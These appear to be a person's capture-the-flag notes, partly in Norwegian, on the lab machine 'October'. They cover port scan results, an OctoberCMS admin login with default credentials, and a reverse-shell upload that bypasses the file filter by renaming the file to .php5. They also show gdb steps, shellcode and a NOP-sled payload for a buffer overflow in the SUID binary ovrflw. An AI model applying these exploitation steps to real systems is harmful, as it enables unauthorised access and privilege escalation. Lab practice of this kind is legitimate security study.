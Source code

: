 ## october 10.10.10.16

Linux october 4.4.0-78-generic \#99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 i686 i686 GNU/Linux

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 \(Ubuntu Linux; protocol 2.0\)

80/tcp open  http    Apache httpd 2.4.7 \(\(Ubuntu\)\)

octobercms

**server 2003 sp2 x86**

* Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.21

  Potentially risky methods: PUT PATCH DELETE

[http://10.10.10.16/backend/backend/auth/signin](http://10.10.10.16/backend/backend/auth/signin)

suid enabled binaries / buffer overflows?

/usr/local/bin/ovrflw

Exploiting /usr/local/bin/ovrflw but NX bit is on and ASLR is enabled on the machine

**admin admin er login**

**upload rev shell i media en jpg, rename til php5 for å bypasse.**

/usr/local/bin/ovrflw

disassemble main

break \*0x080484c5

run $\(python -c "print\('A'\*32\)"\)

x/200xb $esp

0xbfcfc180 eller **0x bf cf c1 78**

quit

run $\(python -c "print\('A'\*200\)"\)

run $\(python -c "print\('A'\*112\)"\)

116 = 41 har 112 bytes med minne

med **run $\(python -c "print\('A'\*112+'BBBB'\)"\)**  blir til 42

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

112 - 28 byte shellcode = 84

run $\(python -c "print\('\x90'\*84+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'+'\x78\xc1\xcf\xbf'\)"\)


